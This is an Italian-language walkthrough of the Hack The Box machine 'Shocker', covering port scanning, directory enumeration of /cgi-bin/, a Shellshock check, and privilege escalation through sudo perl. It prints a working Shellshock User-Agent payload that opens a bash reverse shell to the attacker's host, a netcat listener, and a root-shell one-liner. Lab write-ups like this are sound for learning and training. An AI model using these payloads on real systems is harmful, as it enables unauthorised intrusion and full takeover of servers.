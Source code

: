 # Shocker

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.17
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 2222:** OpenSSH 7.2p2
* **Porta 80** Apache httpd 2.4.18

```text
Nmap scan report for 10.10.10.56
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/18%OT=80%CT=1%CU=40237%PV=Y%DS=2%DC=I%G=Y%TM=65085D9
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M53CST11NW6%O2=M53CST11NW6%O3=M53CNNT11NW6%O4=M53CST11NW6%O5=M53CST1
OS:1NW6%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 2222 OpenSSH 7.2p2

La vulnerabilità trovata:
  * OpenSSH 2.3 < 7.7 - Username Enumeration

Questa vulnerabilità ci permette di fare username enumeration [CVE-2018-15473](https://github.com/Sait-Nuri/CVE-2018-15473).

Non mi interessa utilizzare questa vulnerabilità per il momento, quindi proseguo.

### 2) Porta 80 Apache 2.4.18

Non trovo nulla di interessante.

### 3) Direcotory enumeration

Utilizzo il comando dirb, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Sep 18 15:36:07 2023
URL_BASE: http://10.10.10.56/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.56/ ----
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                                            
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)                                          
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)                                       

-----------------
END_TIME: Mon Sep 18 15:42:00 2023
DOWNLOADED: 4612 - FOUND: 3
```

Provo con il comando gobuster utilizzando la wordlist _directory-list-2.3-medium.txt_, cercando file con estensione _sh_ e _cgi_.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,cgi
```

Il risutlato è il seguente

```text
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi,sh
[+] Timeout:                 10s
===============================================================
2023/09/18 16:13:31 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
```

Scarico lo script user.sh:

<p align="center">
  <img src="/immagini/immagini-macchine-linux/shocker/shocker-1.png" />
</p>

Facendo una rapida ricerca, basandomi sul nome della macchina, mi imbatto nella vulnerabilità shellshock. Per questo motivo utilizzo uno script nmap per verificare che il sito sia vulnerabile ad essa:

```text
nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh
```

Il risultato è il seguente:


```text
Nmap scan report for 10.10.10.56
Host is up (0.080s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685
```

**Quindi è vulnerabile!**

### 4) Vulnerabilità Shellshock

Per sfruttare la vulnerabilità utilizzo la guida presente in questo [sito](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi).

Avvio burp e intercetto la richiesta _/cgi-bin/user.sh_:

<p align="center">
  <img src="/immagini/immagini-macchine-linux/shocker/shocker-2.png" />
</p>

Dopodichè modifico il campo _User Agent_ nel seguente modo:

```text
() { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.13/4444/ 0>&1
```
Prima di inviare la richiesta, avvio un listener sulla porta 4444:

```text
nc -nlvp 4444
```

<p align="center">
  <img src="/immagini/immagini-macchine-linux/shocker/shocker-5.png" width="180" height="290"/>
</p>

**SBAM! Sono dentro.**

<p align="center">
  <img src="/immagini/immagini-macchine-linux/shocker/shocker-3.png" />
</p>

## Privilege Escalation

Per prima cosa controllo i permessi dell'utente:

<p align="center">
  <img src="/immagini/immagini-macchine-linux/shocker/shocker-4.png" />
</p>

Quindi posso lanciare un comando perl come root.

Facendo una ricerca su questo [sito](https://gtfobins.github.io/gtfobins/perl/) capisco che posso elevare i miei privilegi attraverso questo comando:

```text
sudo perl -e 'exec "/bin/sh";'
```

**Eseguendolo ottengo il contenuto di root.txt**
